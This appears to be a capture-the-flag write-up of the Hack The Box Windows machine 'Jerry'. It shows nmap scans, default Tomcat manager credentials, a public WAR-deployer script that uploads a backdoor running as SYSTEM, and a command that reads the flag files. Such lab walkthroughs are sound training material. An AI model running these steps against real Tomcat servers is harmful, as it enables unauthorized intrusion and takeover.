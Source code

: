 ```yaml
---
layout: single
title: "Jerry - Hacking Windows HTB Box "
categories: htb
classes: wide
---
```


Machine: Jerry
Ip: 10.10.10.95


Usually, First i perform all ports scanning
```bash
nmap -p- -v -T5 10.10.10.95
```
Nmap found only port 8080 open. Again scan to enumerate the version of it.

```bash
$ nmap -p8080 -sV -sC  -T5 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88


```

This version is vulnerable to war file upload( [CVE LINK](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12617)). To exploit this we need creds info. 

I found the default creds in ```http://10.10.10.95/manager```:
```
Username: tomcat
Password: s3cret 
```

It was really easy machine to exploit. I found an awesome exploit script:
```
https://github.com/mgeeky/tomcatWarDeployer
```

Running this script as follows:
```
python tomcatWarDeployer.py.py -U tomcat -P s3cret -v 10.10.10.95:8080
```
![Exploiting Jerry](/images/jerry1.png)

And it upload a backdoor as system. So i was able to find all flags with following command:
```bat
cmd /c type c:\Users\Administrator\Desktop\flags\*.txt
```

Screenshot:
![Hacking Windows 2012 HTB Box jerry](/images/jerry-root.png)